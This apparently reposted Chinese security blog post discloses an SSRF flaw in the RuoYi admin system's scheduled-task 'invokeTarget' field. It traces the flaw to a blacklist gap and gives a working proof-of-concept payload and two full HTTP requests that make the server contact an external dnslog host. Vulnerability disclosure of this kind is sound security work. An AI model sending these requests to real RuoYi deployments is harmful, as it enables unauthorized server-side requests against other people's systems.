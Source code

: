 #  SpringKill的0day|若依后台定时任务存在SSRF漏洞   
原创 春纱  卫界安全-阿呆攻防   2024-04-20 15:21  
  
这个漏洞适合广大水洞的安服兄弟们，这个洞是SpringKill为了支援呆哥在项目上有交付，现场翻源码审的，POC很简单附在文中。  
  
SpringKill师傅的Github地址：https://github.com/springkill  
  
sdfd  

				
				  
  
   
  
01  
  
项目介绍  
  

				
				  
  
- 项目名称：若依  
  
- 项目地址：  
```
https://gitee.com/y_project/RuoYi
```  
  
- 项目描述：基于SpringBoot的权限管理系统 易读易懂、界面简洁美观。核心技术采用Spring、MyBatis、Shiro没有任何其它重度依赖。直接运行即可用  
  
   
  
02  
  
简单分析  
  

				
				  
```
https://gitee.com/y_project/RuoYi/blob/master/ruoyi-common/src/main/java/com/ruoyi/common/constant/Constants.java
```  
  
这是若依黑名单位置：ruoyi-common/src/main/java/com/ruoyi/common/constant/Constants.java。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hFPkDXcMlMsZEcQz3fKRKuTYRsgeqJnBXHeTX8AD09L2yOy5UWagfnoiau7ic4TphsYLkXXJNv1r5uqkz6dDVA1Q/640?wx_fmt=png&from=appmsg&random=0.6949478832681126&random=0.26939201221393394 "")  
  
没加com.ruoyi.common的黑名单限制。  
  
  
03  
  
复现案例  
  

				
				  
  
 POC：  
```
com.ruoyi.common.utils.http.HttpUtils.sendPost('ftp://6a928e83f9.ipv6.1433.eu.org','')
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hFPkDXcMlMsZEcQz3fKRKuTYRsgeqJnB0lRsgvbibcymtlu53DFrrcJdXSFN6jcwhWINsyRp0XKXdfPD7K6W1pQ/640?wx_fmt=png&from=appmsg&random=0.9732152413003161 "")  
```
POST /monitor/job/edit HTTP/1.1
Host: xxx
Connection: keep-alive
Content-Length: 242
sec-ch-ua: "Chromium";v="124", "Google Chrome";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Cookie: JSESSIONID=563ce678-53de-407f-8ed9-cabbc1f17ea4

jobId=102&updateBy=admin&jobName=test&jobGroup=DEFAULT&invokeTarget=com.ruoyi.common.utils.http.HttpUtils.sendPost('ftp%3A%2F%2F6a928e83f9.ipv6.1433.eu.org'%2C'')&cronExpression=0%2F10+*+*+*+*+%3F&misfirePolicy=1&concurrent=1&status=1&remark=
```  
```
POST /monitor/job/add HTTP/1.1
Host: xxxx
Connection: keep-alive
Content-Length: 232
sec-ch-ua: "Chromium";v="124", "Google Chrome";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Cookie: JSESSIONID=563ce678-53de-407f-8ed9-cabbc1f17ea4


createBy=admin&jobName=test1&jobGroup=DEFAULT&invokeTarget=com.ruoyi.common.utils.http.HttpUtils.sendPost('ftp%3A%2F%2F6a928e83f9.ipv6.1433.eu.org'%2C'')&cronExpression=0%2F1+*+*+*+*+%3F&misfirePolicy=1&concurrent=1&status=0&remark=
```  
  
点击确认->更多操作->执行一次  
  
点完之后去dnslog那里看就行了，这里执行需要等待5-20秒。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hFPkDXcMlMsZEcQz3fKRKuTYRsgeqJnBH6uClxpKYnlLJ7J9RCDSNyImAYdIYicJHF4G9Akiawrx0ngcfgmZiacPA/640?wx_fmt=png&from=appmsg&random=0.6412688614656281 "")  
  
  
后面执行完毕之后在调度日志也可以看到。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hFPkDXcMlMsZEcQz3fKRKuTYRsgeqJnBHESLBYSHFeBuoT5WWk5U2HVqKKGjnV3VsIge4SzG3micWrV8zVIUUag/640?wx_fmt=png&from=appmsg&random=0.3613715179024466 "")  
  
   
  
04  
  
技术交流  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/hFPkDXcMlMsZEcQz3fKRKuTYRsgeqJnBZdaFQ2aslZz9AHFsdSJ3uMyZrROPicMvibICgKDZwHJwO3ATiaa0te3kQ/640?wx_fmt=jpeg "")  
  
  
  
